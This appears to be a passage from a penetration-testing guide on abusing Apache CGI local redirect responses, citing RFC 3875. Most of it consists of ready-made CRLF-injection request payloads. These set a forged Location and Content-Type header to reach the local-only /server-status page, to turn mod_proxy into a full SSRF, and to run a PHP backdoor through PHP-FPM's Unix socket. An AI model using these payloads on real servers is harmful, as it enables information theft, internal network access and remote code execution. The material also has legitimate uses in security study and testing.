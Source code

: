 According to [RFC 3875](https://datatracker.ietf.org/doc/html/rfc3875) (specification about CGI) in [Section 6.2.2](https://datatracker.ietf.org/doc/html/rfc3875#section-6.2.2) defines a Local Redirect Response behavior:

> The CGI script can return a URI path and query-string (‘local-pathquery’) for a local resource in a Location header field. This indicates to the server that it should reprocess the request using the path specified.

Therefore, to perform this attack is needed one of the following vulns:

- CRLF Injection in the CGI response headers
- SSRF with complete control of the response headers

#### **Arbitrary Handler to Information Disclosure**

For example `/server-status` should only be accessible locally:

```xml
<Location /server-status>
    SetHandler server-status
    Require local
</Location>
```

It's possible to access it setting the `Content-Type` to `server-status` and the Location header starting with `/`

```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo %0d%0a
Content-Type:server-status %0d%0a
%0d%0a
```

#### **Arbitrary Handler to Full SSRF**

Redirecting to `mod_proxy` to access any protocol on any URL:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:
http://example.com/%3F
 %0d%0a
%0d%0a
```

However, the `X-Forwarded-For` header is added preventing access to cloud metadata endpoints.

#### **Arbitrary Handler to Access Local Unix Domain Socket**

Access PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in `/tmp/`:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a
```
